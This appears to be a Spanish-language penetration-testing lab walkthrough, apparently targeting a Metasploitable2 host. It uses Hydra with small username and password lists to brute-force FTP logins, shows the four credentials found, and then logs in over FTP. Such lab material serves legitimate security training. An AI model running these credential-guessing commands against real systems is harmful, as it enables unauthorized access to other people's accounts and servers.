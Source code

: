 Crear una carpeta de trabajo y entrar ahí.
```bash
mkdir ms2 && cd ms2
```

Para conocer las opciones de hydra, ejecutar:
```bash
hydra -h
```

1. Crear un archivo de usuarios "users.txt" con el siguiente contenido en la carpeta de trabajo
```
msfadmin
service
user
postgres
```

2. Crear un archivo de passwords "passwords.txt" con el siguiente contenido en la carpeta de trabajo
```
msfadmin
service
user
postgres
```

3. Usar Hydra para probar usuarios y passwords usando los archivos creados anteriormente.
```bash
sudo hydra -L users.txt -P passwords.txt 10.0.200.5 ftp
```

La salida es la siguiente:
```bash
┌──(kali㉿kali)-[~/ms2]
└─$ sudo hydra -L users.txt -P passwords.txt 10.0.200.5 ftp
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-07-30 14:52:28
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://10.0.200.5:21/
[21][ftp] host: 10.0.200.5 login: msfadmin password: msfadmin
[21][ftp] host: 10.0.200.5 login: service password: service
[21][ftp] host: 10.0.200.5 login: user password: user
[21][ftp] host: 10.0.200.5 login: postgres password: postgres
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-07-30 14:52:32
```

4. Conectarse al ftp usando las credenciales encontradas por hydra
```bash
ftp 10.0.200.5
```

La salida es la siguiente:
```bash
┌──(kali㉿kali)-[~/ms2]
└─$ ftp 10.0.200.5
Connected to 10.0.200.5.
220 (vsFTPd 2.3.4)
Name (10.0.200.5:kali): msfadmin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```